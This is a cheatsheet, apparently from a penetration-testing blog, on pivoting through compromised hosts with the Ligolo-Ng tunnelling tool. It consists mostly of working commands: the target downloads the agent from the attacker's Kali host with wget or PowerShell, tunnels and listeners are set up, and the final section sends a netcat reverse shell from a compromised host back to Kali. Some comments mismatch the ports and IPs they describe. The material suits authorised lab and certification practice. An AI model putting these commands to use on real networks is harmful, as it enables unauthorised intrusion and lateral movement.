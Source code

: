 ```yaml
---
layout: post
title:  Ligolo-Ng Cheatsheet
description: Cheatsheet for Ligolo-Ng
date:   2024-10-31 09:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

# Getting Ligolo-Ng
Important Note: Make sure you are always using the same version of Proxy and Agent.

## Download the binaries manually (recommended)
### PROXY (Run this on Kali)
- [Linux 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

### AGENT (Run this on Pivot Host)
- [Linux 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-Ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

# Alternative with Package Installer
```shell
sudo apt install ligolo-ng
# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

# Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443
# On Target (Linux)
cd /tmp
wget http://<kali_ip>:443/agent
# On Target (Windows using PowerShell)
cd C:\Windows\Temp
powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
```
Set up Ligolo-Ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up
# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list
# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert
# The Ligolo-Ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
# On Linux
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert
# On Windows PowerShell
./agent.exe --connect <kali_ip>:11601 -ignore-cert
```

Now enter the following on the Ligolo-Ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session
# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1
# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start
# Now we are able to access the network 172.16.150.0/24
```

## File Transfer Example with Single Pivot
In this example:
- We got access into the Host B 172.16.150.20 (We are inside its CLI).
- We previously set up our Pivot Host A, in this case 172.16.150.10.
- Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10).

To achieve that, we will create a new listener in our active Ligolo-Ng session:
```shell
# Create new listener - Port 1234 on Kali will be the Port 9001 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-Ng session
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:9001
# Start Python server on Kali using Port 1234
python3 -m http.server 1234
# From the Host B CLI, access Python server through Port 9003 at the Pivot Host
wget http://172.16.150.10:9001/test.txt
```

## Reverse Shell Example with Single Pivot
Following the example above, we will create a new listener, but this time we will use that listener to get a Reverse Shell:
```shell
# Create new listener - Port 1235 on Kali will be the Port 9002 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-Ng session
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:9002
# Start nc listener on Kali Port 1345
nc -lvnp 1235
# Enter the following at Linux CLI on Host B to access the nc listener through Pivot Host A Port 9002
nc 172.16.150.10 9002 -e /bin/sh
# Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
```
